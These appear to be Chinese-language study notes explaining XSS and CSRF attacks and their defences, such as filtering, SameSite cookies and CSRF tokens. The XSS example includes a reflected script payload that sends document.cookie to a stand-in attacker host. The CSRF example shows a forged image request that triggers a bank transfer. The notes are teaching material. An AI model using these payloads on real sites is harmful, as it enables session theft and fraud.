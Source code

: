 # xss

被注入恶意脚本，然后被前端所执行，导致的危害。

## 反射型

非持久化，每次触发都需要用户去点击（伪造的url）。

## 存储型

持久化，将恶意代码录入到数据库中。

## dom型

纯前端导致的，不经由后端，不做考虑。

## 区别

反射和存储，都经过后端。

反射：会将用户输入的内容，经由一定的业务，联同输入的内容一起返回。

存储：会将恶意代码存储在数据库。

dom：纯前端，获取用户输入，然后又作为html输出。

## 案例

1. 一个正规的网站（银行网站`www.yinhang.com`）存在反射型xss。
2. 黑客利用这个漏洞，并调整url参数，使得访问该网址时执行一个js脚本：` www.yinhang.com/interface?name=<script>window.open('http://www.heike.com?cookie='+document.cookie)</script>`。
3. 自己编写一个网站`www.heike.com`，用于接收js脚本发起的请求来获取cookie
4. 拿到cookie，利用该cookie，伪装自身进行一系列非法操作。

黑客的网址接收到这个cookie，即可通过这个cookie来访问银行网址。做出非法的操作。

## 危害

1. cookie被窃取，以至于被伪造个人信息。
2. 被动攻击其他网站。
3. 执行恶意脚本，影响体验。

## 解决

1. 输入过滤。（对明确输入类型数字、URL、电话号码、邮件地址，可以采用输入过滤。对不确定输入类型，直接采用过滤，会引起不确定性。如用户昵称：小明\<xm 结果被过滤为 `小明&lt;xm`）
2. 白名单限制。
3. 防止浏览器执行恶意代码来防范 XSS

因此，所有的用户输入的内容在输出时，都必须进行过滤。或者将其作为一个纯文本执行，而非html代码执行。

## 总结

xss简单的说就是用户的注入，然后显示（存储后显示给其他，直接显示）出来。如果显示的时候过滤了，那不就行了。

1. 如果是富文本编辑，那么必然存在标签，不能过滤，只能在将这个内容显示时，用纯文本显示，而非html文本显示。
2. 如果是有严格要求，则禁止录入任何标签，或者直接过滤掉标签。

# csrf

并不能窃取信息，而是冒用用户信息（借助第三方cookie），进行非法操作。

## 案例

```js
   1. 用户打开浏览器，访问受信任银行网站，输入用户名和密码请求登录网站；
   2.在用户信息通过验证后，银行网站产生Cookie信息并返回给浏览器，此时用户登录网站成功，可以正常发送请求到网站；
   3. 用户未退出银行网站之前，在同一浏览器中，打开一个TAB页访问其他网站B
   4. 这时候网站B 已被黑客注入诱导信息，加入是一张图片,图片地址指向
     src=”http://bank.example/withdraw?account=bob&amount=1000000&for=黑客
     点击之后转账给黑客这个账户
   5. 浏览器在接收到这些攻击性代码请求后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，根据用户的Cookie信息以C的权限处理该请求，导致来自黑客请求恶意代码被执行。 
```

## 危害

伪造真实用户，对存在漏洞的接口进行调用，比如转账，信息传递等。

## 解决

### samesite cookie 

csrf是利用第三方cookie，那么从cookie的samesite属性来防止csrf。

同站是指（有效顶级域名+1）比如有效顶级域名为`.com .github.io` 等

`www.taobao.com`和`www.test.taobao.com`就是同站，因为有效顶级域名+1 是一致的。

`test.github.io`和`tmp.github.io`不是同站，因为只有顶级域名一致。

![img](image\1460000022055677)

详细内容：https://blog.csdn.net/MeituanTech/article/details/83023558

### 同源检测 （referer）

https://blog.csdn.net/MeituanTech/article/details/98745561?spm=1001.2014.3001.5501

### csrf token

从egg-security的源码

### 双重cookie验证 

因为csrf攻击，是hk只能够利用第三方cookie，但无法知道cookie的具体值。因此可以利用双重cookie。

1. 第一次访问时，在cookie存放一个token。
2. 后续所有写请求，都在url或body上存放cookie中token。服务器校验两个token的值。

详细内容：https://blog.csdn.net/MeituanTech/article/details/83023558


